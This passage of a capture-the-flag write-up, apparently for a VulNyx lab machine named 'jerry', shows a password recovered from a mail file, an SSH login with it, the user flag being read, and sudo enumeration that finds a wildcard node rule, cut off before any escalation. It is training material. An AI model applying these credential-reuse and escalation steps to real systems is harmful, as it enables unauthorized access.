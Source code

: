 ```

Which millennium are you going to go to, Kramer's or Newman's?

From jerry@jerry  Fri Mar  8 10:03:40 2024
Return-Path: <elaine@jerry>
X-Original-To: jerry@vulnyx.com
Delivered-To: jerry@vulnyx.com
Received: by vulnyx.com (Postfix, from userid 1004)
        id 47219A0346; Fri,  8 Mar 2024 10:03:40 -0600 (CST)
Subject: Vacation weeks at Spain
To: <elaine@vulnyx.com>
User-Agent: mail (GNU Mailutils 3.15)
Date: Fri,  8 Mar 2024 10:03:40 -0600
Message-Id: <20240308160340.47219A0346@vulnyx.com>
From: jerry@jerry


Hi Elaine, 

If I remember correctly you were going on vacation in Spain for a few weeks, right? 
I just wanted to confirm that the password for the gym was 'imelainenotsusie',
I don't want to be there and not be able to pick up the glasses from the gym locker.

Best regards!
```

```javascript
elaine:imelainenotsusie
```

```
┌──(nabla㉿kali)-[~]
└─$ ssh elaine@jerry.nyx

elaine@jerry.nyx's password: 
Linux jerry 6.1.0-18-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.76-1 (2024-02-01) x86_64

elaine@jerry:~$ 
```

```
elaine@jerry:~$ cat /home/elaine/user.txt

676ced18c8f480a80ddb4351d66d5f28 🚩
```

**Linux Privilege Escalation**

```
elaine@jerry:~$ sudo -l

[SNIP]

User elaine may run the following commands on jerry:
    (ALL) NOPASSWD: /usr/bin/node /opt/scripts/*.js

elaine@jerry:~$ ls -l /opt/scripts/

total 4
-rw-r--r-- 1 root root 875 Mar  8  2024 backup.js
```
